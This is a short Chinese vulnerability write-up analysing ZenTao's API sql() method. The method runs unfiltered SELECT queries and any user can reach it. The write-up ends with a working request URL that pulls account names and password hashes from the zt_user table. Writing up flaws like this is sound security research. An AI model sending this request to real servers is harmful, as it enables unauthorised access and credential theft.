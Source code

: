 

```php
public function sql($sql, $keyField = '')
{
    $sql  = trim($sql);
    if(strpos($sql, ';') !== false) $sql = substr($sql, 0, strpos($sql, ';'));
    a($sql);
    if(empty($sql)) return '';

    if(stripos($sql, 'select ') !== 0)
    {
        return $this->lang->api->error->onlySelect;
    }
    else
    {
        try
        {
            $stmt = $this->dao->query($sql);
            if(empty($keyField)) return $stmt->fetchAll();
            $rows = array();
            while($row = $stmt->fetch()) $rows[$row->$keyField] = $row;
            return $rows;
        }
        catch(PDOException $e)
        {
            return $e->getMessage();
        }
    }
}
```



这里并没有进行过滤，只使用了代码`$sql=trim($sql)`过滤了空格



我们看一下这里的调用这个方法需要的权限



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-20.png)



这里可以看到任何用户都可以调用这个模块的方法，所以我们用它调用`sql`方法进行查询(空格转换为+,绕过过滤)



```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-21.png)



成功执行sql语句